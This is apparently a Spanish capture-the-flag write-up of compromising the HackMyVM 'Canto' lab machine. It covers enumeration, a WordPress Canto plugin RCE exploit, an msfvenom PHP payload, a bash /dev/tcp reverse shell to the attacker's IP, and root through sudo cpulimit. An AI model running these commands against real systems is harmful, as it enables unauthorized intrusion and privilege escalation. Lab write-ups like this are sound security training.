 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - HackMyVM
  - Easy
  - Linux
  - HTTP
  - WordPress
  - Searchsploit
  - Sudo
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Wpscan|Wpscan]]
	- [[#Explotación#Searchsploit|Searchsploit]]
	- [[#Explotación#Sudo|Sudo]]

---
# Resolviendo la máquina Canto

>En esta publicación, comparto cómo resolví la máquina **Canto** de [HackMyVM](https://hackmyvm.eu/machines/?v=canto).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 192.168.1.134`

![[Pasted image 20250718190749.png]]

*TTL=64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.134 -oG allPorts`

![[Pasted image 20250718190922.png]]

`nmap -p22,80 -sCV 192.168.1.134 -oN targeted`

![[Pasted image 20250718191000.png]]
### HTTP

![[Pasted image 20250718191056.png]]
#### Fuzzing Web

`gobuster dir -u http://192.168.1.134/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![[Pasted image 20250718191312.png]]

`http://192.168.1.134/wp-admin`

![[Pasted image 20250718191355.png]]

---
## Explotación
### Wpscan

`wpscan --url http://192.168.1.134/ --enumerate u,vp`

![[Pasted image 20250718191617.png]]
![[Pasted image 20250718191655.png]]

`wpscan --url http://192.168.1.134/ --passwords /usr/share/wordlists/rockyou.txt --usernames erik`

![[Pasted image 20250718191856.png]]
![[Pasted image 20250718194733.png]]

Al no tener resultados con la fuerza bruta, se procede a buscar *plugins*.

`wpscan --url http://192.168.1.134/ --plugins-detection aggressive -t 50`

![[Pasted image 20250718195237.png]]
![[Pasted image 20250718195337.png]]

Se identifica el plugin vulnerable **Canto** en **WordPress**, el cual presenta una vulnerabilidad de *Remote File Inclusion (RFI)* y *Remote Code Execution (RCE)*.

`searchsploit Canto`

![[Pasted image 20250718195518.png]]
### Searchsploit

`searchsploit -m 51826`

![[Pasted image 20250718195539.png]]

Se crea un *payload malicioso* para **PHP**.

`msfvenom -p php/reverse_php LHOST=192.168.1.127 LPORT=1234 -f raw > pwned.php`

Nos ponemos en escucha en el puerto 444.

`nc -nlvp 1234`

Se ejecuta el exploit descargado.

`python3 51826.py -u http://192.168.1.134/ -LHOST 192.168.1.127 -s pwned.php`

![[Pasted image 20250718202749.png]]

![[Pasted image 20250718202808.png]]

Se establece una *reverse shell* para mantener el acceso persistente.

`nc -nlvp 1235`

`bash -c "sh -i >& /dev/tcp/192.168.1.127/1235 0>&1"`

![[Pasted image 20250718202900.png]]

Una vez obtenida la *reverse shell* en la máquina víctima, se procede a realizar una búsqueda.

`cat /etc/passwd`

![[Pasted image 20250718203418.png]]

Accedemos al directorio: `/home/erik/notes`.

`cd /home/erik/notes`

Se encuentran los archivos: `Day1.txt` y `Day2.txt`.

`cat Day1.txt`

![[Pasted image 20250718203618.png]]

`cat Day2.txt`

![[Pasted image 20250718203639.png]]

Se realiza una búsqueda para encontrar los *backups*.

`find / -name backups 2>/dev/null`

![[Pasted image 20250718203913.png]]

`cd /var/wordpress/backups/`

Se encuentra el archivo: `12052024.txt`.

`cat 12052024.txt`

![[Pasted image 20250718204036.png]]

`su erik`

![[Pasted image 20250718204108.png]]
### Sudo

`sudo -l`

![[Pasted image 20250718204504.png]]

Se observa: `/usr/bin/cpulimit`.

Se realiza una búsqueda en [GTFOBins](https://gtfobins.github.io/gtfobins/cpulimit/).

![[Pasted image 20250718204643.png]]

`sudo cpulimit -l 100 -f /bin/sh`

![[Pasted image 20250718204731.png]]

---